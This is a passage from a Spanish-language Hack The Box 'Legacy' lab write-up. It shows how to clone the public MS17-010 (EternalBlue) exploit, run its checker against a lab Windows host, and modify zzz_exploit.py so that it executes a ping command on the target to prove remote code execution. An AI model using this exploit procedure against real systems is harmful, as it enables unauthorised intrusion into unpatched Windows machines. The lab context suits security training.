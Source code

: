 ```java
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Se puede idenfiticar que es vulnerable para RCE, por lo que, podemos utilizar un script basado en al vulnerabilidad `MS17-010`

```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/exploits]
└─# git clone https://github.com/worawit/MS17-010.git                                                                                                   
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 573.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.
```
Para verificar si es explotabel ejecutamos el `cheker.py`, y vemos que tenemos una respuesta correcta de lso named pipes, en este caso browser.
```java
┌──(root㉿kali)-[/home/…/HTB/legacy/exploits/MS17-010]
└─# python2 checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched
=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```
Con esto se puede utilizar el archivo `zzz_exploit.py`, por lo que, debemos modificar varias lineas del archivo para optimizar el exploit, se deben comentar 6 lineas.
```java
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()                  # Esta linea anteponiendo # al inicio
	print('creating file c:\\pwned.txt on the target')  # Esta linea anteponiendo # al inicio
	tid2 = smbConn.connectTree('C$')                    # Esta linea anteponiendo # al inicio
	fid2 = smbConn.createFile(tid2, '/pwned.txt')       # Esta linea anteponiendo # al inicio
	smbConn.closeFile(tid2, fid2)                       # Esta linea anteponiendo # al inicio
	smbConn.disconnectTree(tid2)                        # Esta linea anteponiendo # al inicio
```	
Para verificar si hay ejecucion remota de código, modificamos la línea :
```java
#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
```
Y la reemplazamos por 
```java
service_exec(conn, r'cmd /c ping 10.10.16.15')
```

El resultado de las modificaciones debe ser la siguiente
```java
def smb_pwn(conn, arch):
	#smbConn = conn.get_smbconnection()

	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c ping 10.10.16.15')
```